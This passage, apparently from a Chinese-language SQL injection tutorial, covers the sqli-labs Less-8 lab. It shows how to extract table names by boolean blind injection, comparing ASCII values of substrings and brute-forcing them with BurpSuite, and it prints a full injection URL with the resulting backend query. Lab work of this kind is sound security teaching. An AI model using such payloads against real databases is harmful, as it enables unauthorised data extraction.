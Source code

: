 ![](image/17.jpg)

#### 获取表名

方法同获取数据库名一样，截取字符串，转化为比较ASCII码，通过`BurpSuite`爆破得到表名。

下面为第一个表的第一位的URL及后端执行的SQL语句：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1),1,1))=101%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select table_name from Information_schema.tables where table_schema = database() limit 0,1),1,1))=101#' LIMIT 0,1
;
```
